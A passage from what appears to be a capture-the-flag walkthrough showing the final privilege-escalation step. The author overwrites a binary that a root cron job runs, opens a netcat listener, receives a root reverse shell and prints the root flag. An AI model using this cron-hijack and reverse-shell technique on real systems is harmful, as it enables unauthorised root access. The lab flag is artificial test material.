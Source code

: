 ```sh
cp monitor /opt/AV/periodic-checks/monitor
eric@era:~/monitordir$ cd /opt/AV/periodic-checks
cd /opt/AV/periodic-checksl
eric@era:/opt/AV/periodic-checks$ s -alhn
ls -alhn
total 32K
drwxrwxr-- 2 0 1001 4.0K Jul 27 14:30 .
drwxrwxr-- 3 0 1001 4.0K Jul 22 08:42 ..
-rwxrwxr-x 1 0 1001  17K Jul 27 14:30 monitor
-rw-rw---- 1 0 1001  103 Jul 27 14:30 status.log
```

Now with my shell ready to catch the connection, I wait for a bit and root cron delivers me unto valhalla.

```sh
 nc -lvn 9998
Listening on 0.0.0.0 9998
Connection received on 10.129.19.197 40256
whoami
root
cat /root/root.txt
b7d4898e3332392f7dde3d8c35c1a027
```